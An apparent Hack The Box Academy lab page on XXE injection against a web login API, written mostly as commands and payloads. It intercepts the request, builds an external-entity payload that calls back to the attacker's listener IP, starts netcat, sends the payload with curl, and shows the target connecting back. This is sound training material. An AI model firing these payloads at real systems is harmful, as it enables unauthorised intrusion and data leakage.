 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/160/section/1481
// Platform Version: V1
// Module ID: 160
// Module Name: Web Service & API Attacks
// Module Difficulty: Medium
// Section ID: 1481
// Section Title: XML External Entity (XXE) Injection
// Page Title: Hack The Box - Academy
// Page Number: 12
-->

# XML External Entity (XXE) Injection

**Module Name:** Web Service & API Attacks **Page Number:** 12

#### 

#### WEB SERVICE & API ATTACKS

# XML External Entity (XXE) Injection

``` shell-session
[!bash!]$ burpsuite
```

![https://academy.hackthebox.com/storage/modules/160/11.png](https://academy.hackthebox.com/storage/modules/160/11.png)

``` http
POST /api/login/ HTTP/1.1
Host: <TARGET IP>:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://<TARGET IP>:3001
DNT: 1
Connection: close
Referer: http://<TARGET IP>:3001/
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?><root><email>test@test.com</email><password>P@ssw0rd123</password></root>
```

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```

``` shell-session
[!bash!]$ nc -nlvp 4444
listening on [any] 4444 ...
```

``` shell-session
[!bash!]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>
```

``` shell-session
[!bash!]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```

``` shell-session
[!bash!]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

# 

# 

#### Questions

####
